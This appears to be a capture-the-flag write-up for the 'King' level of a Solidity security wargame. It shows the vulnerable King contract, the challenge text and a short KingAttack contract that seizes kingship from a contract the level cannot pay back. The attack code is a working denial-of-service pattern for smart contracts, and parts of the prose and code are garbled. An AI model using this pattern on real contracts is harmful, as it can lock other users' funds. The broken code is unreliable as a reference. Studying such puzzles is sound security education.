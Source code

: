 # Challenge 9

<img src="./images/BigLevel9.svg" alt="9" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Challenge
---
> The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

  Such a fun game. Your goal is to break it.

  When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

Solution 
---
1. You have to owner or you need to send greater than or equal prize amount in contract. Here's The Code make the call from the other contract with equal or greater prize amount then you will beat level. Here's The Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttack {
    King  kingAddress;

    constructor(address payable _addr) public {
        kingAddress = King(_addr);
    }

    function solve() public payable {
        require(msg.value >= 1000000000000001);
        (bool success,) = address(kingAddress).call{value:msg.value}("");
        require(success);
    }
}
```

Take the Instance Address and Deploy KingAttack Contract With it then send the amount, now open the terminal 
```js
await contract._king()
```
you will see contract address, now submit the instance your challenge will be cleared.